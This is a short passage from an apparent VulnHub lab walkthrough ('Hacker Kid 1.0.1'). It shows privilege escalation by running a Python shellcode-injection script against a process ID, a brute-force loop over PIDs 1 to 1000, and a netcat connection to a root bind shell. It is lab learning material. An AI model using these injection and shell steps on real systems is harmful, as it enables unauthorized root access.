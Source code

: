 	![](Pasted%20image%2020220214163134.png)
7. Run `inject.py` specifying `PID 766`
``` 
saket@ubuntu:/tmp$ /usr/bin/python2.7 inject.py 766
Instruction Pointer: 0x7f1554d1d0daL
Injecting Shellcode at: 0x7f1554d1d0daL
Shellcode Injected!!
Final Instruction Pointer: 0x7f1554d1d0dcL
```
8. Obtain root shell
	``` 
	┌──(root💀kali)-[~/vulnHub/Hacker_kid_1.0.1/192.168.110.28/exploit]
	└─# nc 192.168.110.28 5600
	id
	uid=0(root) gid=0(root) groups=0(root)
	```
	![](vmware_ggFNroEWxU.gif)
	![](Pasted%20image%2020220214164229.png)
9. Alternative
``` 
saket@ubuntu:/tmp$ for x in {1..1000}; do /usr/bin/python2.7 inject.py $x; done
```
![](vmware_ChR7ZpU8DF.gif)

